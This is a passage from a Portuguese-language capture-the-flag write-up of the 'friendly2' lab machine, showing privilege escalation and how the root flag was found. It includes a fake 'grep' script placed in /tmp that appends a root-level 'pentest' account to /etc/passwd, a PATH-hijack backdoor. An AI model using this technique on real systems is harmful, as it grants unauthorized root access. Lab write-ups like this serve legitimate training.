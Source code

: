 Criado script/arquivo grep na tmp  
script para add usuário no passwd

```bash
#!/bin/bash
echo 'pentest:$6$z8cdUIDN1PCXgR/f$JZ3zd3Y45sd/RN6nDigDf.KZorSCLs9OgfuYnDWxOg0/tyCAOQrPC4LbNpLT8/USVe2O9y6KgXR4kOYzQQqZ61:0:0:root:/root:/bin/bash' >> /etc/passwd
```
{: .nolineno }

```shell
gh0st@friendly2:~$ cd /tmp/
gh0st@friendly2:/tmp$ nano grep
gh0st@friendly2:/tmp$ chmod +x grep 
gh0st@friendly2:/tmp$ 
```
{: .nolineno }

![alt text](/assets/img/friendly/friendly17.png)

### root flag

```shell
root@friendly2:~## cat /root/root.txt
cat /root/root.txt
Not yet! Try to find root.txt.


Hint: ...

root@friendly2:~# find / -name "..."
/...
root@friendly2:~# cd /...
root@friendly2:/...# ls
ebbg.txt
root@friendly2:/...# cat ebbg.txt 
It's codified, look the cipher:

98199n723q0s4xxxxs39r33685q8pnoq
```
{: .nolineno }

Pode decodificar dessa forma ou seguir abaixo:  
String ROT13
`echo "stringaqui" | tr 'A-Za-z' 'N-ZA-Mn-za-m'`
